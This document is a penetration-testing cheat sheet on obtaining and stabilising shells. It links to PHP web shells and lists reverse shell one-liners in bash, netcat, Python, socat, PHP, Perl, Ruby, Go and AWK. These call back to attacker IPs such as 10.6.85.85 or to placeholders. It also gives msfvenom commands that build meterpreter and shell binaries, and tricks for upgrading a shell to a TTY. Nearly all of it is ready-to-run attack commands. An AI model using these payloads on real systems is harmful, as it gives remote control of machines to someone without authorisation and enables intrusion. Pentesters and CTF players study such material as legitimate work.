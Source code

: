 # Shells 
## Contents
- [Shells](#shells)
  * [Contents](#contents)
  * [Web shells](#web-shells)
  * [Debugging Shells](#debugging-shells)
  * [Reverse shell commands](#reverse-shell-commands)
  * [Msfvenom Payloads](#msfvenom-payloads)
  * [Upgrading to a pseudo terminal / TTY](#upgrading-to-a-pseudo-terminal---tty)

## Web shells 
[phpbash web shell](https://github.com/Arrexel/phpbash)  
[pentest monkey php shell](https://github.com/pentestmonkey/php-reverse-shell)  
[p0wney web shell](https://github.com/flozz/p0wny-shell)  
[white winter wolf web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)  
[collection of PHP webshells](https://github.com/JohnTroony/php-webshells/tree/master/Collection)    

    /usr/share/seclists/Web-Shells

## Debugging Shells   
executing a command and no response - maybe the command is redirecting to stderr not stdout?
2>&1
Check for versions / path variables  
No path variable? Need absolute path 

    /bin/bash -c 'id'   

## Reverse shell commands  
### Bash (requires /dev/tcp support, primarily found in RedHat/Debian distros):  
One bash version (compromised account's shell must be bash; does not work via www-data):  

    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1   
Two bash version (safer, since parent shell can be anything):    

    bash -c 'bash -i >& /dev/tcp/172.17.0.2/1337 0>&1'     
### netcat  
nc w/ -e (traditional):  

    rlwrap nc -e /bin/sh 172.16.5.1 4242   
    
    -e /bin/sh 
    -e /bin/bash
    -e /bin/zsh
    -e /bin/ash
    
nc openbsd (no -e):    

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f    
    
### other languages  
python: 

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' 
    
python ipv6:

    python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 
    
socat                     

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444 
    
PHP            
    
    php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 

Perl 

    perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 
Ruby 

    ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    
    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
    
    
Golang 

    echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

AWK

    awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
    
[Tiberius Reverse Shells](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/reverse-shells.rst) 

[Payload All the Things Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 

[Reverse Shell Cheatsheet](https://github.com/d4t4s3c/Reverse-Shell-Cheat-Sheet)  

[Reverse and Bind Shells with Socat](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/)

## Msfvenom Payloads 
[Reference](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/)    

    msfvenom -l payloads      #list payloads    
    msfvenom -l encoders      #list encoders 
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
    
## Upgrading to a pseudo terminal / TTY     
[Reference](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)  
[What Happens in a Shell Upgrade?](What Happens In a "Shell Upgrade"?)   

    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash')
    /bin/sh -i  
    script /dev/null -c bash      #create new pty owned by current user, fixed in newer versions of screen        
    
    SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
    
    Can you upload a [socat static binary](https://github.com/andrew-d/static-binaries)? 
    
    vi -> :sh or :!UNIX_command
    perl —e 'exec "/bin/sh";' 
    perl: exec "/bin/sh"; 
    ruby: exec "/bin/sh" 
    lua: os.execute('/bin/sh') 
    

